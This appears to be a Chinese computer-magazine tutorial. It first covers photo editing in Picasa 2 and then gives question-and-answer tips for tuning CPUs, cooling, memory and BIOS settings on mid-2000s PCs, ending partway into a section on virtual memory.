在灯光较暗的情况下，使用闪光灯拍人物照时容易出现“红眼”现象。使用Picasa 2修复“红眼”比任何其他图像处理软件都要简单：单击“红眼”按钮，然后在图片上拖曳出选区，将红色的眼睛选中，放开鼠标时，红眼就会变成黑色了。注意在拖曳选区时，只要使选区恰好覆盖红色的眼球部分即可，不要将选区拖曳得过大，以免对其他部分造成影响。

Picasa的“红眼”修复不需要去对眼球进行涂抹，更加智能。如图14、15分别为使用Picasa 2修复“红眼”前后的效果对比。

##### 2. 手气不错

光影魔术手中有非常方便、快捷的“自动”功能，PicasaPicasa 2中有没有呢？答案是有，就是“手气不错”。单击“手气不错”按钮，Picasa 2会自动修改图片使图片的颜色和对比度达到最理想的状态。如图16、17为使用“手气不错”前后的效果对比。


##### 3. 其他设置

微调：单击Picasa左边界面的“微调”按钮，可对相片进行“补光”、“高光”、“阴影”、“色温”等处理，在进行处理后，单击“撤销微调”按钮可取消更改，如图18所示。


补光：在相片偏暗的时候使用，为具有过亮背景的图片增加前景中的亮度，使图片中的亮度更加平衡。例如，逆光拍摄时容易出现“黑脸”的情况，此时就可以使用此功能来进行调节。

高光：可增加或减少图片中的亮点或高光区域。

阴影：使用“阴影”滑块可为照片增加更多的阴影。

色温：使图片具有更暖（向右滑动）或更冷（向左滑动）的效果。如图19为一张偏冷的图片，向右拖动滑块获得比较自然的效果，如图20所示。


中间色选择器：我们知道数码相片经常会出现偏色现象，例如在室内日光灯照射下摄影就容易产生偏色现象。偏色有相机本身的原因，也跟拍摄环境有关，其根本原因是相机不能正确识别白色。单击“中间色选择器”，然后在右边的图像区中单击本应是白色、黑色或灰色的部分，告诉Picasa应将图片的哪一部分作为白色、黑色或灰色，Picasa将会根据所选颜色校正偏色。这个功能跟nEOiMAGING的“白平衡一指键”有异曲同工之妙。

提示：在“高光”和“中间色选择器”右边都有一个带亮光小棒的按钮，可以通过一次单击获得比较好的调整效果。

##### 4. 效果

Picasa 2提供了一些漂亮的相片效果，类似Photoshop中的滤镜功能（见图21）。


这些效果包括：

- 锐化——使图片中的对象边缘更加清晰。适用于“跑焦”和“虚化”的相片。
- 褐色——通过将图片转化为红棕色调，产生“怀旧”的效果。
- 黑白——将彩色照片转化为黑白照片。
- 暖化——暖化冷色照片，改善肤色。
- 胶片颗粒——为图片添加胶片“颗粒”的效果，在打印时可产生良好的效果。
- 着色——使用颜色提取器选取颜色并对整个图片应用该双色调或着色效果。
- 饱和度——增加颜色饱和度。
- 柔焦——围绕所选中心点柔焦。常用于人像处理，可制造朦胧美感。
- 发光——为图片加上些许发光的效果。
- 黑白滤镜——使图片呈现黑白胶片加彩色滤镜拍出的效果。
- 黑白彩色显现——使用可调整的大小滑块和锐度滑块围绕中心点降低颜色饱和度。可以使图像中间部分呈现彩色，周围呈现黑白色，起到突出重点的作用。
- 渐变色——使用所选颜色添加渐变滤镜。可用于使灰色的天空呈蓝色。

我们选择一些有特色和代表性的效果来讲解。

###### (1) 柔焦

Picasa 2的“柔焦”功能有两个选项。
大小：调整“柔焦”的范围；
图像饱和度：调整“柔焦”的程度。
首先用十字形光标在图像上单击定位，“柔焦”效果将从这个定位点向外发散，而中心部分保持清晰，调节两个选项以获得满意的“柔焦”效果。

如图22、23为使用“柔焦”效果前后的图像对比。“柔焦”效果用于人像时，可以突出主体，并获得朦胧、柔美、神秘的感觉。

###### (2) 黑白彩色显现

首先将十字形光标定位在要显示彩色部分的图像中心，再调节“大小”和“锐度”两个选项。“大小”是指彩色部分显示的范围；“锐度”则类似于Photoshop中的“羽化”功能，可以让图像的彩色部分和黑色部分自然过渡，不显生硬。

如图24、图25所示分别为原图和经过“黑白彩色显现”调整后的效果。


### 创建“电影”

选择一些你最满意的照片，然后选择“创建→电影”命令，在弹出的“创建电影”对话框中设置“图片间隔时间”和“电影大小”（见图29），单击“确定”按钮后Picasa将会开始渲染影片，以标题图片结束，然后你就可以到图片所在文件夹中找到创建的影片并和大家分享了。


#### 三、其他实用功能

Picasa 2还有一些其他实用功能。

##### 礼品CD

选中喜欢图片所在的文件夹，在上方工具栏上单击“礼品CD”按钮，可以轻松制作相册光盘。最后将空白刻录盘插入到刻录机中，单击“刻录光盘”按钮刻录光盘。

##### 制作海报

使用“创建”→“制作海报”命令，Picasa 2可以平铺你选择的图片，让你打印海报的各个部分，然后重新按照海报的大小将它们拼接成海报，最大尺寸可达原始图片的10倍。如图26所示。


##### 图片拼贴

在Picasa 2右边的图片区中选择要拼贴的图片（结合Ctrl和Shift键进行选取，图片数量不宜太多，建议选择3～5张图片），然后使用“创建→图片拼贴”命令，或单击下方的“拼贴”按钮，弹出“制作拼贴”对话框（见图27）。


设置“类型”、“选项”等，可以改变拼贴效果。另外，每次单击预览框中的图像，都会随机产生一种拼贴效果。设定“位置”选项并单击“选择”按钮设定保存拼贴图像的文件夹。获得满意的效果后，单击“创建”按钮，在所设定文件夹中便可以找到创建出的拼贴图片（见图28），默认的保存位置是“我的文档”的“图片收藏”文件夹中。

##### 博客功能

Picasa不仅能够通过电子邮件任务快速实现图像共享，而且还能通过Blogger任务将选中的图片自动发布到你的blogger博客（Blog）上。选定一个图片，单击BloggerThis!按钮，在打开的窗口中输入你在“www.blogger.com”申请的账号和密码即可登录到你在“www.blogger.com”上的博客（选择“记住我”可直接登录到你的博客），单击“发布”即可把选定的图片发布到你的博客上，是不是很方便啊！

除了上述功能外，Picasa 2还有制作桌面、屏幕保护程序、制作网页相册等功能，这些功能都位于“创建”菜单中，还可以使用“工具”→“备份图片”命令，方便地备份图片。

已经介绍了光影魔术手和Picasa 2两个优秀软件，读者可能会问：这两个软件该如何取舍啊？综合来看，nEO iMAGING，上手最简单，而效果很绚丽；Picasa 2更为全面，它能看图，能处理数码相片，能管理电脑里的所有数码相片，但需要一定的时间上手。它们都是免费软件，建议将它们结合起来使用，取长补短，有了这两个优秀软件，基本上可以让Photoshop“下岗”了。

## 全面优化你的硬件系统

文 / 水月子

说到硬件优化，很多朋友自然而然地就会想起超频来。虽说超频现在大行其道，实现起来也很简单，但超频并不能够完全体现一个电脑爱好者的技术水平，因为超频其实很简单，但如何能够让你的硬件用最大效率地去运行就不是那么简单了。如果你觉得自己的硬件还没有发挥最大效能的话，不妨跟着看看下面的问题，说不定可以帮你解决！

### 一、CPU 优化

问题一
我用的是双核的CPU，请问在使用的时候可以进行什么优化吗？

答：可以。虽说处理器的驱动程序都是包含在操作系统中的，但随着处理器研发速度的日益加快以及产品种类的不断增加，现在处理器厂商也开始自己发布驱动程序，安装这些驱动程序也需要某种特别规定的步骤才能发挥全效。如果你现在用的双核CPU是AMD的话，你就可以下载最新的AMD X2双核优化驱动了，这个驱动配合微软的双核驱动补丁能够给你的系统带来1%～5%的性能提升。

首先，我们可以去 http://www.amd.com/us-en/Processors/TechnicalResources/0,,30_182_871_13118,00.html 下载和安装AMD的CPU驱动，这个过程很简单，我就不多说了。至于微软的补丁，我们可以通过 http://www.amdzone.com/files/WinXPdualcorehotfix.exe 来下载。安装了补丁之后，我们还需要对系统文件进行一些修改才可以真正应用。打开“开始→运行”，输入regedit按回车运行注册表编辑器，找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager]，新建一个名为Throttle的键值。然后右键单击这个Throttle，并且新建一个Dword值，将其命名为PerfEnablePackageIdle。双击PerfEnablePackageIdle，然后在修改对话框中输入数字1，确定要在数据框中选中16进制，点击OK之后退出注册表编辑器。接下来修改C:\Boot.INI文件，在里面加入以下内容，或者将原有的安全覆盖。

```
[Boot loader]
timeout=30
default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
[operating systems]
multi (0) disk (0) rdisk (0) partition (1) WINDOWS="Microsoft Windows XP Professional" /noexecute=optin /fastdetect /usepmtimer
```

最后我们再到 http://www.amd.com/us-en/Processors/TechnicalResources/0,,30_182_871_9706,00.html 去下载AMD的双核优化驱动，注意这个驱动才是优化双核的，但是之前要安装AMD自己的驱动程序才可以应用这个双核优化驱动。现在你的补丁就安装完毕了，现在可以去试试看性能是否真的有所提高。遇到兼容性问题的时候不要慌，只要卸载掉补丁即可，我们可以进入控制面板的“添加/删除程序”，将编号为KB896256的更新补丁删除掉，建议大家在修改注册表之前备份一下，然后到时恢复即可，最后就是卸载AMD的驱动程序和双核优化驱动就能够完全恢复原有的系统了。

问题二
请问Intel的双核也能够进行优化吗？

答：Intel的CPU没有类似AMD那样进行优化的驱动程序，不过你也不用灰心，其实我们可以在Windows XP里面稍微设置一下，让你的Intel双核CPU能够更好地发挥双核的特点，就是多任务处理能力。现在我们在正常使用双核CPU的时候，大多数情况下，两个核心都是处理同一个任务线程，总的来说性能没有太大的提升，但是我们可以设置一下让其中一个核心固定执行一个任务，而另外一个核心执行别的任务，这样双核的长处就体现出来了。好像我们正在用其中一个核心看高清晰度的视频，同时也能用另外一个核心处理一些CPU占用率非常高的软件，譬如杀毒软件，视频处理，游戏之类的。

首先，我们打开两个都需要高CPU占用率的软件，然后按Ctrl+Shift+Esc调出Windows任务管理器，切换到“进程”标签之后我们找到两个软件当前运行的进程，然后在其中一个上面点击鼠标右键，弹出如图1的菜单，然后选择“关系设置”，注意这是双核CPU特有的菜单选项，选择进去可以看见CPU 0和CPU 1两个核心，你的两个软件进程，一个专用CPU 0，一个专用CPU 1，那这两个软件在各自进行工作的时候就不会互相干扰，而你的双核CPU就好比有了两个CPU般，能够发挥最大的效能了。


问题三
听说硅胶对CPU的散热、高频CPU的运行很重要，请问是不是真的呢？

答：没错，硅胶、硅脂可以说是直接影响到你的CPU性能的重要物质。

首先，我们要选择质量好的导热硅脂，因为制作再精良的散热片与CPU接触时都难免有空隙出现，因此我们很有必要使用导热硅脂填充CPU与散热片之间的空隙。通过增大两者的接触面积来改善导热的效果。但要注意的是，因为金属散热片的导热能力要比导热硅脂强得多，因此在这里使用导热硅脂仅仅是用来填补空隙，而不是用来连接CPU和散热片，切不可认为导热硅脂是散热主体，它只是帮助散热片散热而已。现在市场上销售的DIY专用导热硅脂主要有三种：白色导热硅脂、灰色导热硅脂以及一种少见的偏黑色导热硅脂。白色导热硅脂是最常见的，常温下是黏稠的液体状态，由于在硅脂中添加了不同含量的金属银粉而分为几个等级，区别在于它们的黏稠程度不同，而其中金属银粉的成分越多散热效果就越好，当然它的价格也就越高。灰色导热硅脂是Intel公司的原装导热硅脂，它在导热硅脂中添加了一定的石墨粉来增强导热效果，如果你觉得这种硅脂中石墨粉不够多，也可以自己添加一些。将灰色导热硅脂放到玻璃板上，然后把铅笔放在上面磨，边磨边与硅脂搅拌。不过要注意一点，在磨制过程中不要太用力，否则铅笔芯颗粒太大，反而影响导热效果。偏黑色导热硅脂只不过是在导热硅脂里加入了少量的焊锡粉才会显示成偏黑色，据说它的散热效果在导热硅脂中是最好的。

其次，我们要正确使用导热硅脂，有些朋友害怕硅脂粘上CPU后擦不掉，其实大多数导热硅脂没有太强的黏性，粘上CPU后可以很容易地擦掉。至于怎样涂抹导热硅脂，却是十分有讲究：涂抹硅脂的时候要注意用量，涂抹量不可过多，刚好把CPU内核凸出部分和其他部分填平或把凹槽涂满就可以了，切忌将整个CPU芯片都涂抹。同时，涂抹的时候一定要厚薄均匀。硅脂里特别注意不能留有气泡，否则空隙内的空气将会起到保温作用。还有一点要强调的是，由于AMD的CPU表面有许多裸露的铜导线，在使用导热硅脂的时候，就必须弄清楚该硅脂里是否含有过量的石墨粉或金属粉，以免造成短路的可怕后果。

最后我们要正确区分导热硅胶与导热硅脂，事实上它们是两种东西。导热硅胶的作用与导热硅脂基本相同，它的种类比较多，颜色也不一样，但是有一个共同点，就是低温下呈凝固状，高温下则呈黏稠状液态，有导热性。而且这里所说的导热硅胶绝不是工业硅胶，如果你买的是工业硅胶就要小心CPU过热烧坏了。由于导热硅胶在第一次使用的时候会被CPU高温熔化，然后均匀黏合在CPU与散热片上，当温度下降冷却后，硅胶则把CPU和散热片紧密地联结在一起，因此在涂抹时要注意不能涂抹过多，否则高温熔化后的硅胶会流到CPU插槽上面，不仅会把CPU牢牢地粘在CPU插槽上，而且还有可能使CPU的针脚绝缘，导致CPU无法正常工作。用导热硅脂、硅胶把CPU和散热片黏结在一起比较容易，但想把它们分开就没那么轻松了。拆卸粘有导热硅脂的CPU比较简单，毕竟它的黏合度不是很强。而拆卸粘有导热硅胶的CPU就没有这么简单了，通常只能用小刀切开。由于CPU的陶瓷非常坚固，所以只要你小心大胆就完全能做到，这也是现在没人再把万能胶当导热硅胶的一个原因。

问题四

我的CPU散热风扇虽然风力很强劲，但是热量总是无法很好地散出去，让我的CPU经常发生不稳定甚至死机的情况，不知道有什么方法解决呢？

答：按照一般的安装方法，风扇中间是不会产生风的马达。风扇紧压着散热片，中间没有空间混合气流，导致散热片中间不会吹到风。还有一个问题就是散热器装好后风扇转起来噪声很大，原因是风扇的震动传给了散热片，再传给CPU主板，令人担心会不会震坏那脆弱的CPU。我们需要改装风扇来达到更好的散热效果，找块橡胶垫（像鼠标垫那样厚）剪成两块三角形状，用热熔胶固定在散热片的两边，风扇再用热熔胶固定在三角形橡胶片的上面，倾斜着偏离中心一些，使风斜着向散热片吹。这样改动有几个好处：一是风扇的震动被橡胶垫吸收，运转时用手触摸散热片基本没震动；二是风扇和散热片之间有空气混合空间；三是风向从一边吹向另一边，散热片全部可以吹得到。

问题五

我的风扇转速很高很强劲，但是噪音太大了，不知道有没有办法让风扇在CPU不怎么工作的时候低速运转，在CPU全功率工作的时候才会自动加速来帮助散热呢？

答：当然可以，现在很多主板都支持智能控制风扇的转速，这样做不单单可以降低噪音，更重要的是降低能耗，延长风扇、CPU以及主板的寿命。就拿华硕的主板来说吧，它们自从P4P800开始就基本上内置了“Q-Fan Technology”（智慧型温控风扇技术），该技术可以让CPU风扇变得聪明起来。它可以根据当前CPU的温度情况，自动调节风扇的电压以控制风扇转速。当温度低时，自动降低风扇电压以降低转速；温度高时，自动提升风扇电压以提高转速。要激活Q-Fan Technology首先要进入BIOS Setup，Q-Fan Control的默认设置是Disabled，也就是说这项功能被屏蔽了，将之设置为Enabled之后就会增加了两个选项，这两个设置项在默认设置下是隐含的。

#### (1) Fan Speed Ratio

帮助用户选择风扇降速比例，缺省设置为10/15，这也是最低的速率。如果你使用的是Tt等名牌风扇，可以考虑适当提高，可供设置的值有10/15、11/15、12/15、13/15、14/15、FullSpeed等，当风扇转速适当降低后，噪音自然也会小很多。

#### (2) Speed Up/Down Response Time

这个项目可以设置自动调整侦测CPU温度的间隔时间，缺省设置是4/8，可供设置的值有1/2、2/4、3/6、4/8等，如果你对风扇的散热能力有些担心，可以将检测频率设置得稍高一些。

当然，如果你的主板是别的品牌，可能选项会有所不同，不过大家只要注意找找Fan Speed或者Smart Fan就会知道主板上究竟有没有这样的功能了，一般来说这个功能是和CPU的超频选项放在同一个地方的。

#### 问题六

我希望 CPU 能够在空闲的时候进行一下降温，请问现在什么降温软件比较好呢？

答：CPU 温度控制软件有很多，不过这里我介绍两个降温软件给大家，分别是 Cpudle 和 Waterfall Pro。

##### (1) Cpudle

Cpudle 是一个由德国人开发的老牌降温软件，早在 DOS 时代已经出现，当时名为 DOSIdle。目前 Cpudle 通用的版本是 6.0，我们可以在 http://www.mydown.com/soft/15/15981.html 下载这个软件，它采用完全图形化的操作界面，运行后在任务栏上出现程序图标。用户在图标上单击鼠标右键，选 Options 即出现 Cpudle 的主界面。在主界面里面一共有五个标签，我们可以在 CPU Info 里面看到 CPU 和内存的基本资料。在 StartUP 标签里面则可以进行设置，如让 Cpudle 随 Windows 启动时运行、优化 CPU 性能（Optimize CPU/Chipset）等等，大家可以根据实际情况进行选择。值得一提的是，Cpudle 还有专门针对 Windows NT/2000/XP 的版本 Cpudle Pro。不过由于 Windows NT/2000/XP 操作系统已经内置优秀的电源管理功能，所以它在这三种操作系统中的降温效果并不太明显。总的来说它的最大优点是运行稳定，可有效地降低 CPU 温度（5~10℃），因而延长了 CPU 使用寿命，减少电源消耗量。此外它还有优化 CPU 的作用，运行时占用系统资源也不多（1%~2%）。

##### (2) Waterfall Pro

和 Cpudle 比起来，Waterfall Pro 同样历史悠久，而且功能比 Cpudle 更为强大，除了降温功能之外，还提供了 CPU 优化功能、精确监视 CPU 的占用率和消耗、读取主板相关信息如 CPU 温度等等功能。我们可以在 http://www.mydown.com/soft/87/87463.html 下载它的 2.99 版。安装运行之后，我们可以双击任务栏上面的图标打开软件的主界面。在主界面上点击 “Options→Setup”，即可在随后出现的窗口中按照指示设置 CPU 类型、主板类型。如果找不到你使用的 CPU 或主板类型，选择 Generic Processor 或 Generic Mainboard 也行，然后 Waterfall Pro 也会自动对 CPU 作出优化。接下来在 Alarm 窗口中可进行 CPU 警报条件的设置。其中 Upper Safety Range 和 Lower Safety Range 两项可分别设置警报温度的高低，程序会根据用户的设置情况来降低 CPU 的温度。譬如可以设置成 CPU 温度达到 60℃或低于 20℃时发出警报。同时，我建议勾选 Decrease the temperature of the CPU when it is overheated 一项，这样当 CPU 温度超过设置的警报界限时，就会开始自动降温。另外，你也可以设成用音效或文字来提示 CPU 的警报信息。如果不知道如何设置警报界限，还可以点选 Default Message and Safety Range 按钮，软件会自动检查和设置。

接下来点击 Miscellaneous 选项，记住要点选 HLT Enable 一项来启动 CPU 温度检测功能。而 CPU Throttling（温度调节器）应该是此软件最独特的设计，因为它在 CPU 温度管理方面比其他软件具有独到的优势。一旦 CPU 温度达到警戒值或连续一段时间内整个系统都处于负荷很重的状态下，Waterfall Pro 就会自动强迫系统降低负荷。在 Start CPU Throttling when the AVERAGE CPU LOAD is over 下，大家可以左右拉动水平数值滑动条来设置 CPU 负荷的百分率和输入持续的时间。通过调整 CPU 的负荷设置，以便控制 CPU 的温度不会超过特定的限度。当然，降低了系统的负担也就是降低 CPU 的使用率，对系统的速度多少会有影响。不过相信大家不会宁愿系统过热死机，而不肯稍微牺牲一些速度来使 CPU 冷却吧。建议将 CPU 负荷的百分率设为 50，而时间设为 30 秒，这对系统的速度影响最小，同时又能够有效地调节和控制 CPU 的温度。完成设置后，点击任务栏上的 Waterfall Pro 图标，便会出现系统的信息如主板相关资料、CPU 温度、环境温度、CPU 电压、输出输入电压、风扇转速等等，内容非常详细。总的来说，Waterfall Pro 比 Cpudle 要强大得多，降温效果更明显，而且它还有优化 CPU 的功能，缺点是系统资源占用率较高。

### 二、内存和BIOS优化

内存是除了 CPU 之外对系统运行速度第二重要的配件，而和 CPU 相比，内存的优化要复杂得多，而且大多数用户都没有对内存进行优化，从而白白浪费了高性能的内存！另外 BIOS 也关系到整个系统的运行合理性，有时候忘了设置某些选项，可能会让你的系统性能大打折扣。

#### 问题一

答：想让内存运行得更快，最直接的办法就是超频，不过这只是优化的第一步，超频了之后我们应该要做完整套优化的工序，系统的性能才会获得最大的提高。内存超频有两种，一种是和 CPU 同步的频率，另外一种就是内存频率和 CPU 不同。总的来说，性能的提高自然是内存和 CPU 频率同步最大了，但如果你的 CPU 无法到达 150 的外频的话，把内存超上去也会获得一点性能上面的提升，因此优化内存最直接的办法就是超频了。在超频之前，我们首先应该确认自己有一条质量过硬的内存，因为要是你的内存本身先天不足，而又勉强超频的话，你的机器有可能会因为不稳定而频繁死机。这里我就用手头上的 nForce4 主板来举例说明一下如何将内存超频，首先看看如图2的主板 BIOS 超频选项，我们的调节就从这里开始。


###### 第一步：

调节LDT/FSB。这里和内存的频率和性能没有太大关系，但是把倍数调低一点却可以让内存超频到更高的频率，缺省是5×的话，我们可以调整到2或者3。

###### 第二步：

调节CPU的外频率。如手上这条内存是DDR 400，也就是说实际频率大概等于200，如果我们是同步超频的话，要确定我们的CPU能否超到和内存同样的频率，譬如说DDR 600，那么外频就相当于300了。如果你的CPU是AMD，而且频率无法上升到300外频的话，可以尝试调低CPU的倍频，譬如外频200的Athlon XP 3000+，倍频是9，调成8之后，外频就能够超到300了。因为AMD处理器一般锁定倍频向上调节，但是没有锁定向下调节。

###### 第三步：

调节内存时钟频率。在如图3的选项里面，第一项是内存频率调节，第二项Command Per Clock则直接关系到整机的性能，1T与2T时序可以让整机出现5%左右的性能差距，一般来说要设置成1T。第三项是CAS延迟值，设置到2.5之后看看你的内存是否运行稳定，不行的话3一般就没问题了。接下来我们调节SDRAM RAS to CAS Delay数值，一般来说2是最快的，但内存的质量决定了这个数值，我们可以多番尝试最低的数值，这样才会获得最大限度的性能提升。接下来我们调整Row to Row delay和Refresh period参数，四个选项从上而下的数值可以调整到2-2-1-2，如果稳定的话就万事大吉了，如果不稳定的话我们可以调整一下内存的电压，另外Refresh period最好设置为100 1.95us，这个设置可以加快浮点运算性能。前面说了如果超频不稳定的话可以调整内存电压，我们可以在DRAM Voltage Control里面进行调整，一般来说我们是以0.1V为档次往上调，直到你的内存稳定运行为止，但是这样做会让内存的发热量加大，要确保机箱散热没问题才可以这样做。


#### 问题二

请问主板的BIOS FEATURES SETUP的选项是什么？我不太明白设置这些选项的意义。

答：BIOS FEATURES SETUP就是BIOS功能设定，十分重要，特别是关系到整机运行时的一些功能是否开启，我们可以看看如图4的界面。


首先要说明的就是这里的功能开启状态有两种：Enabled是开启，Disabled是禁用，我们可以使用Page Up和Page Down在这两者之间切换。

CPU Internal Core Speed: CPU当前的运行速度，不同的主板有不同的显示，现在很多新主板都把CPU速度独立出了BIOS功能设定页面了。

Virus Warning: 病毒警告。

CPU Internal Cache/External Cache: CPU内、外快速存取。

CPU L2 Cache ECC Checking: CPU二级缓存错误检查修正，一般打开，关闭之后会稍稍影响系统的速度。

Quick Power On Self Test: 快速开机自我检测，此选项可以调整某些计算机自检时检测内存容量三次的自检步骤，一般关闭即可，让机器快速启动。

CPU Update Data: CPU更新资料功能。

Boot From LAN First: 网络开机功能，此选项可以远程唤醒计算机。

Boot Sequence: 开机优先顺序，这是我们常常需要调整的功能，通常我们使用的顺序是：A、C、SCSI，如果你不需要从A盘启动，那么可以调整为Only C，即只从C盘启动。

BIOS Flash Protection: BIOS写入保护。

Swap Floppy Drive: 交换软驱盘符。

VGA Boot FROM: 开机显示选择。

Boot Up Floppy Seek: 开机时是否自动检测软驱。

Boot Up Numlock Status: 开机时小键盘区是否打开锁定数字输入。

Security Option: 检测密码方式，如设定为SETUP，则每次打开机器时屏幕均会提示输入口令，其中又分为普通用户口令和超级用户口令，普通用户无权修改BIOS设置，不知道口令则无法使用机器；如设定为System则只有在用户想进入BIOS设置时才提示用户输入超级用户口令。

Memory Parity Check: 如果机器上配置的内存条不带奇偶校验功能，则该项一定要设为Disabled，目前除了服务器外，包括品牌机在内的内存均不带奇偶校验。

OS Select For DRAM〉64MB（设定OS2使用内存容量）如果正在使用OS/2系统并且系统内存大于64MB，则该项应为Enabled，否则高于64MB的内存无法使用，一般情况下为Disabled。

HDD S.M.A.R.T. capability: 硬盘自我检测，此选项可以用来自动检测硬盘的工作性能，如果硬盘即将损坏，那么硬盘自我检测程序会发出警报。

Video BIOS Shadow: 使用VGA BIOS Shadow用来提升系统显示速度，一般都选择开启。

C8000 - CBFFF Shadow: 该块区域主要来映射扩展卡 (网卡等) 上的 ROM 内容，将其放在主机 RAM 中运行可以提高速度。

这些选项在以前或者现在的主板上都能够找到，虽然文字表述可能不同，但是功能大体上都是一样的。我们一定要注意设置好，不然说不定你的机器会无法启动（譬如设置错了启动顺序）。

#### 问题三

我的系统在开机自检的时候总是出现 “CMOS Error....” 这样的字样，并且无法启动，这是为什么呢？

答：CMOS 出错的原因有很多种，代表的情况和故障也很多，因此可以看看你的情况是否为下面的其中一种。

-   (1) CMOS battery failed (CMOS 电池失效): 说明 CMOS 电池的电力已经不足，请更换新的电池。

-   (2) CMOS check sum error-Defaults loaded (CMOS 执行全部检查时发现错误，因此载入预设的系统设定值)：通常发生这种状况都是因为电池电力不足所造成，所以不妨先换个电池试试看。如果问题依然存在的话，那就说明 CMOS RAM 可能有问题，最好送回原厂处理。

-   (3) Press ESC to skip memory test (内存检查，可按 ESC 键跳过)：如果在 BIOS 内并没有设定快速加电自检的话，那么开机就会执行内存的测试，如果你不想等待，可按 ESC 键跳过或到 BIOS 内开启 Quick Power On Self Test。

-   (4) Secondary Slave hard fail (检测从盘失败)：首先可能是 CMOS 设置不当，例如没有从盘但在 CMOS 里设有从盘，另外硬盘的数据线可能未接好或者硬盘跳线设置不当。

-   (5) Override enable-Defaults loaded (当前 CMOS 设定无法启动系统，载入 BIOS 预设值以启动系统)：可能是你在 BIOS 内的设定并不适合你的电脑 (像你的内存只能跑 100MHz 但你让它跑 133MHz)，只要进入 BIOS 设定重新调整即可。

-   (6) Press TAB to show POST screen (按 TAB 键可以切换屏幕显示)：有一些 OEM 厂商会以自己设计的显示画面来取代 BIOS 预设的开机显示画面，而此提示就是要告诉使用者可以按 TAB 来把厂商的自定义画面和 BIOS 预设的开机画面进行切换。

-   (7) Resuming from disk, Press TAB to show POST screen (从硬盘恢复开机，按 TAB 显示开机自检画面)：某些主板的 BIOS 提供了 Suspend to disk (挂起到硬盘) 的功能，当使用者以 Suspend to disk 的方式来关机时，那么在下次开机时就会显示此提示消息。

#### 问题四

我用的是笔记本电脑，BIOS 设置和台式机的不同，请问有什么设置项可以让我优化一下系统性能呢？

答：和普通台式机一样，笔记本电脑的 BIOS 设置优化是最基本的优化方法，合理设置本本的 BIOS，能够加快开机速度，提高内存、CPU、硬盘及显示系统的工作效率，而不同品牌的笔记本电脑的 BIOS 设置方法也大同小异。

一般而言，在 BIOS 设置中有一个 Quiet Boot 选项，这是设置开机画面和开机硬件检测等用的。和台式机一样，默认情况下笔记本电脑开机时首先检测处理器和内存、硬盘等，其中还包括开机画面的显示，而这些工作有时没有必要进行，因此把 Quiet Boot 一项设置为 Enabled，这样就不会显示开机画面及进行硬件检测等步骤了，自然可以大大提高开机启动速度。

另外，现在大多数笔记本上面都没有软驱了，如果你没有使用软驱，又在 BIOS 里打开了软驱端口，那么每次启动笔记本电脑时都会对软驱进行搜索，这样就减慢了开机速度。我们可以在 BIOS 中将软驱设置为 None 或 Disabled (关闭)，同时把第一项开机引导设备设置为 Hard Drive，这样不但加快了开机速度，同时还减少了噪音。此外，在大部分笔记本电脑的 BIOS 设置里都有一项 System Devices (系统设备) 或 Advanced (高级) 选项，在这里可以设置 CPU、显卡、内存、硬盘等性能参数。有的笔记本电脑的 BIOS 中有 DMA Channel 和 VGA Frame Buffer Size 两个选项，第一项用于打开 IDE 设备的 DMA 传输模式，打开后磁盘性能可以提高很多，而第二个则用来设置显卡的显存大小。对于集成显卡来说，要注意设置技巧，比如集成显卡的显存大小范围为 16MB ~ 64MB，则尽量把这个数字设置在 64MB 以内 (如 32MB)，如果设置得太高，而总内存容量却很小 (如只有 128MB)，那么在某些图形软件或游戏动画的渲染中，很有可能出现内存不足导致整体性能大幅度降低。如果使用独立显卡，在 Advanced 选项中会有 Display Expansion Support 这个选项，把这个选项设成 Disabled (关闭) 后，在分辨率小于 1024 × 768 像素及 DOS 界面下，会自动缩小画面以保持最佳显示效果。最后我们不要忘记把 CPU 的 L2 Cache (二级高速缓存) 打开，这样有助于 CPU 的性能发挥，有的笔记本电脑还集成了 LAN、Modem、IEEE 1394 等接口，平时如果不使用这些接口时，最好在 BIOS 中把这些接口屏蔽掉。

#### 问题五

请问有工具可以帮我在 Windows 系统里面优化内存吗？

答：有，Windows 系统里面对内存的使用其实很不合理，很多软件在关闭之后依旧占用着系统内存，长久下去就会出现系统资源不足的情况，而目前内存优化整理工具有很多，我推荐你使用 Memory Zipper，它能够帮你将 Windows 没有释放干净的内存部分清除掉，并且将零散被占用的内存整合，避免系统因为内存资源被越占越多而导致死机的情形发生。我们可以到 http://ftp23.enet.com.cn:88/pub/system/ram/memzip7.zip 下载这个软件。运行 Memory Zipper 后，首先出现在我们面前的是优化内存界面 (如图 5)。“Memory Usage History (内存使用历史)”栏中，以图表的形式来显示系统中的物理内存以及内存的变化过程，图中的黄线以下部分代表可以使用的自由内存量。在图表的右侧还有一些图示信息：System Memory Index (系统内存指数)、Virtual Memory Index (虚拟内存指数)、Total System Index (总的系统内存指数)。

在 Memory Optimization Settings (目标自由内存) 栏里面，你可以通过拖动滑动条来选择自己需要达到的内存量。当选定好之后，再单击 Optimize (优化) 按钮，程序就会对系统中的内存进行优化处理以达到你所需要的目标内存量。在优化的过程中程序还会通过上面的图表来显示其内存优化过程。

接下来点击 Tune Win...(调整 Windows) 按钮便进入了系统调整界面。在这里我们可以详细地为 Windows 操作系统设置缓存，还可以设置 CPU、Windows 窗口的缓存大小，另外对于系统的视觉效果，可以选择 Best Speed-Less Effects (好的速度，差的效果) 或是 Best Effects-Less Speed 选项。如果实在不知道如何设置，那就根据你的内存大小选择 Optimize For Speed (优化速度)，或者 Optimize For Low Memory System (为小内存的系统进行优化) 选项即可。然后点击 Configure (配置) 按钮便可进入配置界面，在这里我们可以选择是否自动优化、自动加载等常规设置。虽然 Memory Zipper 程序的作用很多，但系统内存的优化还是其主要功能，这也是其他软件所不能及的，只要你启用了程序中的自动优化内存功能，Memory Zipper 就会定时为你的系统进行内存优化，从此不用担心系统越来越慢了。

#### 问题六

身边的很多电脑爱好者都说系统里面的“虚拟内存”会对系统性能有很大影响，但是我一向都让 Windows 自动管理虚拟内存，请问怎么样才可以让我的虚拟内存达到性能的最优化呢？我该如何手动设置虚拟内存？

答：系统虚拟内存的确对系统的性能影响非常大，如果你对系统运行速度满意的话，一般让 Windows 来管理虚拟内存就足够了，如果你要系统运行在极速状态的话，可以自己手动设置虚拟内存，因为系统默认设置的管理方式通常比较保守，在自动调节时会造成页面文件不连续，从而降低读写效率，工作效率就显得不高，于是经常会出现“内存不足”这样的提示，下面就让我们自己动手来设置它吧。

